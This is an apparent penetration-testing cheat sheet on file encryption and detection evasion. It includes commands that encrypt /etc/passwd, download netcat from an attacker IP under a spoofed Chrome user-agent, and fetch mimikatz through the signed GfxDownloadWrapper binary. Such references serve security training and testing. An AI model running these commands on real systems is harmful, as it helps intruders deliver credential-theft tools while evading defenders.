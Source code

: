 # Protection

Encrypt a file on Windows using Invoke-AESEncryption:
```powershell
Invoke-AESEncryption -Mode Encrypt -Key "p@ssw0rd" -Text "Secret Text" 
```

Encrypt a file on Linux using openssl:
```bash
openssl enc -aes256 -iter 100000 -pbkdf2 -in /etc/passwd -out passwd.enc
```

Decrypt the file:
```bash
openssl enc -d -aes256 -iter 100000 -pbkdf2 -in passwd.enc -out passwd                    
```

# Evading Detection
---
List blacklisted user-agents:
```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

Request with chrome user-agent:
```shell
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```

Transferring a file using GfxDownloadWrapper:
```shell
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```


